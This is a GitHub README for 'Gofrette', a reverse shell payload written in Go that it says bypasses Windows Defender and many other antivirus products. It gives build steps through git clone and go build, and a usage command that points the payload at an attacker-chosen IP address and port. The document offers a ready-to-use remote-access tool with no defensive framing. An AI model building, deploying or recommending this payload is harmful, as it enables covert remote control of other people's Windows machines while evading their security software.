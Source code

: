 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender and many others anti-virus.


## Installation
### Releases
https://github.com/Enelg52/Gofrette/releases
### Build your own version :
```bash
git clone https://github.com/Enelg52/Gofrette.git
cd gofrette
go build gofrette.go
```

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]
```

## Contributing
Pull requests are welcome !
